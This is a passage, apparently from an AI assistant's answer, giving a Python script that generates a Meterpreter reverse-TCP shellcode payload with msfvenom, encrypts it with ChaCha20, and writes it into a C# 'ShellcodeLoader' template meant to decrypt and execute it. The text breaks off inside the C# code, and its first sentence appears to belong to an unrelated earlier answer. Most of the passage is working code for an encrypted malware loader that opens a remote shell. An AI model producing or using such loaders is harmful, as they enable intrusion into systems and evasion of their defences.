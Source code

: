 These examples should provide a solid starting point for implementing ChaCha20 encryption and decryption in various languages.

Sure! Let's break down the process into two parts:

1. **Python Script**: This script will generate the shellcode using `msfvenom`, encrypt it, generate any necessary keys, and output the C# code that includes the encrypted shellcode and decryption routine.

2. **C# Code**: This code will include the encrypted shellcode as a byte array, decode it, and execute the decrypted shellcode.

### **1. Python Script: Encrypt Shellcode and Generate C# Code**

```python
import subprocess
import os
import base64
from Crypto.Cipher import ChaCha20
from Crypto.Random import get_random_bytes

def generate_shellcode():
    # Generate shellcode using msfvenom
    command = [
        "msfvenom", 
        "-p", "windows/x64/meterpreter_reverse_tcp", 
        "LHOST=127.0.0.1", 
        "LPORT=4444", 
        "-f", "raw"
    ]
    shellcode = subprocess.check_output(command)
    return shellcode

def encrypt_shellcode(shellcode):
    key = get_random_bytes(32)  # 256-bit key for ChaCha20
    nonce = get_random_bytes(12)  # 96-bit nonce for ChaCha20

    cipher = ChaCha20.new(key=key, nonce=nonce)
    encrypted_shellcode = cipher.encrypt(shellcode)

    return encrypted_shellcode, key, nonce

def generate_csharp_code(encrypted_shellcode, key, nonce):
    # Base64 encode the shellcode and keys for embedding in C# code
    encrypted_shellcode_b64 = base64.b64encode(encrypted_shellcode).decode('utf-8')
    key_b64 = base64.b64encode(key).decode('utf-8')
    nonce_b64 = base64.b64encode(nonce).decode('utf-8')

    csharp_code = f"""
using System;
using System.Security.Cryptography;
using System.Text;

namespace ShellcodeLoader
{{
    class Program
    {{
        static void Main(string[] args)
        {{
            // Encrypted shellcode, key, and nonce in Base64 format
            string encryptedShellcodeB64 = "{encrypted_shellcode_b64}";
            string keyB64 = "{key_b64}";
            string nonceB64 = "{nonce_b64}";

```